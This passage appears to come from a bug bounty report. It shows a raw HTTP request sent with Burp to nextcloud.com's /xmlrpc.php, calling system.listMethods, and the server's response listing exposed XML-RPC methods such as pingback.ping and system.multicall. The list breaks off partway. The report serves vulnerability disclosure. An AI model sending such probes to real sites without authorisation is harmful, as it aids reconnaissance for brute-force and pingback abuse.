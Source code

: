 #### Steps To Reproduce:

>>Step 1. Use the Repeater tab in Burp, send the request below.

POST /xmlrpc.php HTTP/2
Host: nextcloud.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 139

<?xml version=”1.0" encoding=”UTF-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

>>> It's response was :

HTTP/2 200 OK
X-Robots-Tag: noindex, follow
Date: Thu, 28 Dec 2023 22:43:12 +0000
Strict-Transport-Security: max-age=15768000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Vary: Accept-Encoding
Cache-Control: max-age=0
Expires: Thu, 28 Dec 2023 22:43:12 GMT
Content-Length: 4581
Content-Type: text/xml; charset=UTF-8
Server: Apache

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>translationproxy.updated_job_status</string></value>
  <value><string>translationproxy.test_xmlrpc</string></value>
  <value><string>translationproxy.get_languages_list</string></value>
  <value><string>wpml.get_languages</string></value>
  <value><string>wpml.get_post_trid</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>